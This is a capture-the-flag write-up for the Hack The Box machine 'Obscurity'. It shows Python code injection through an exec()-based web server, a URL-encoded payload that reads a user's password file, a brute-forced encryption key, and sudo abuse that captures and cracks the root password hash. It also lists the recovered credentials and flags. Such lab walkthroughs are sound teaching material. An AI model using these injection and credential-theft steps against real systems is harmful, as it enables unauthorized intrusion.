








# [Obscurity](https://www.hackthebox.eu/home/machines/profile/219)
## IP : 10.10.10.168

## **Step 0** : Ports Scan



* Website : http://10.10.10.168:8080/

## __Step 1__ : Hints from the [home page](http://10.10.10.168:8080/).

> Message to server devs: the current source code for the web server is in __SuperSecureServer.py__ in the secret development directory`

After some tests the server is fuzzable from the root. Any file or folder can be returned by the browser.



* Server code : http://10.10.10.168:8080/develop/SuperSecureServer.py

## __Step 2__ : Understanding the custom made server

From *hints/SuperSecureServer.py* :
```python
def serveDoc(self, path, docRoot):
    ...
    path = urllib.parse.unquote(path)
    ...
    exec(info.format(path)) # This is how you do string formatting, right?
    ...
    return {"body": data, "mime": mime, "status": status}
```
The `path` parameter coming from the URL. So it's possible to inject python code from url. We need to encode with `urllib.quote()` the code to send it to the http server:

> http://obscurity/{urlib_quoted_python_code}

Also, the code shows that through this function, only the **mime** var can be used to get info back.

## **Step 3** : Injection & Enumeration

With code used in *lab/inject.py* :



We see that we're **user=www-data(uid=33)**

* Time to see what's Robert has for us :



We can't read **user.txt** yet.
But it seems we can have hints on the next step with the other files.

```
$ python3 lab/inject.py "open('/home/robert/passwordreminder.txt','r').read()"
Payload : %27%3BMIMES%5B%27html%27%5D%3Dopen%28%27/home/robert/passwordreminder.txt%27%2C%27r%27%29.read%28%29%3Ba%3D%27
´ÃÃÃÃà ÃÃÃ鯷¿k
````
* Weird encoding, got password from Chrome : 



To summarize : 
* User : **robert**
* Password : **´ÑÈÌÉàÙÁÑ鯷¿k**

Let's try that : 
```
$ ssh robert@10.10.10.168
robert@10.10.10.168's password: 
Permission denied, please try again.
```

### Decrypting **Robert's password**

The file **SuperSecureCrypt.sh** shows us how Robert encrypted his password.
We can bruteforce the key used to encrypt with the script **lab/break.py** :

```
$ python3 break.py 
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich
```
* The key used to encrypt is **alexandrovich**

```
echo "´ÑÈÌÉàÙÁÑ鯷¿k" > to_decrypt.txt
```

Then we decrypt it : 



Password : **SecThruObsFTW**

```
$ ssh robert@10.10.10.168
robert@obscure:~$ cat user.txt
e4493782066b55fe2755708736ada2d7
```

Owned user !

## BetterSSH, really ?

With a bit of enum (**linenum.sh**), we find : 

```
$ echo 'SecThruObsFTW' | ./linenum.sh -s > .report.txt
$ more .report.txt
...
User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
...
```

This script is flawed. Basically, it reads all passwords from **/etc/passwd** and writes them in a randomly generated file in **/tmp/SSH** before deleting it.
We can read its content before it get erased with **lab/listener.py**

```
$ scp listener.py robert@10.10.10.168:/home/robert/listener.py
robert@obscure:~$ python3 listener.py &
robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py 
Enter username: robert
Enter password: SecThruObsFTW
Authed!
```

Then we have our generated file with the encrypted root password : 

> $6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1

Using **hashcat** :



with **BetterSSH** :



Owned root !